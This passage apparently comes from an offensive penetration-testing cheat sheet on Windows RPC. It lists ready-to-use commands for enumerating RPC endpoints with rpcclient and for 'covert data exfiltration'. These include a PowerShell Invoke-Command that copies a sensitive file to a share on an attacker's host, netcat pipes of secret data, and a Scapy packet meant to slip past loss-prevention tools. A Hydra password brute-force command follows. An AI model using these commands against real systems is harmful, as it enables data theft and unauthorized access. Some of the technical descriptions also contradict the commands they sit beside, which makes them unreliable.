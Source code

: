 *   **Tool:** \[\[RPCClient]]

    ```bash
    rpcclient <target_ip> -c 'epmapper'
    ```
* **Description:** If the Endpoint Mapper is accessible but certain RPC services are blocked by a firewall, it might be possible to discover the dynamic ports assigned to these services and attempt to connect directly. Enumerates RPC services and their dynamic ports, allowing you to attempt connections even if the standard RPC ports are blocked.

### Data Exfiltration

#### Covert Data Exfiltration via RPC

*   **Tool:** \[\[Custom Scripts]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-Content C:\sensitive_data.txt | Out-File -FilePath "\\<attack_ip>\share\data.txt" }
    ```
* **Description:** Exfiltrates data by sending it over an RPC over HTTP connection, which may bypass traditional data loss prevention (DLP) measures.

#### Covert Data Exfiltration via RPC

*   **Tool:** \[\[Custom Scripts]], \[\[NetCat]]

    ```bash
    echo "secret_data" | nc <target_ip> 111

    nc <target_ip> 111 < secret_data.txt
    ```
* **Description:** Use RPC communications to covertly exfiltrate data from the target network.

#### Exfiltration via Dynamic Ports

*   **Tool:** \[\[Metasploit]], \[\[Scapy]]

    ```python
    send(IP(dst="<target_ip>")/TCP(dport=49152)/Raw(load="exfil_data"))
    ```
* **Description:** Leverage dynamically assigned RPC ports to exfiltrate data, making it harder to detect.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra rpc://<target_ip> -s 111 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.
